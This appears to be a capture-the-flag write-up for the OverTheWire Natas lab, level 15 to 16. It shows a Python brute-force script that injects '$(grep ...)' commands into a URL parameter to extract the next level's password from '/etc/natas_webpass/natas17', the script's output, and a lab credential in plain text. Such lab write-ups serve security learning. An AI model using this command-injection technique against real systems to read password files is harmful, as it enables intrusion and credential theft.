 ## **Level 15 -> Level 16**

```python
root@kali:~# vim bruteforce2.py
import requests 
from requests.auth import HTTPBasicAuth 

auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh') 

correct = '' 
passwd = '' 
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' 
for char in allchars: 
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=anything$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth) 

 if 'anything' not in r.text: 
 correct += char 
 print(correct) 

for i in range(32): 
 for char in correct: 
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=anything$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth) 

 if 'anything' not in r.text: 
 passwd = passwd + char 
 print(passwd) 
 break
```

```shell
root@kali:~# python bruteforce2.py 
b
bc
bcd
bcdg
bcdgh
bcdghk
bcdghkm
bcdghkmn
bcdghkmnq
bcdghkmnqr
bcdghkmnqrs
bcdghkmnqrsw
bcdghkmnqrswA
bcdghkmnqrswAG
bcdghkmnqrswAGH
bcdghkmnqrswAGHN
bcdghkmnqrswAGHNP
bcdghkmnqrswAGHNPQ
bcdghkmnqrswAGHNPQS
bcdghkmnqrswAGHNPQSW
bcdghkmnqrswAGHNPQSW3
bcdghkmnqrswAGHNPQSW35
bcdghkmnqrswAGHNPQSW357
bcdghkmnqrswAGHNPQSW3578
bcdghkmnqrswAGHNPQSW35789
bcdghkmnqrswAGHNPQSW357890
8
8P
8Ps
8Ps3
8Ps3H
```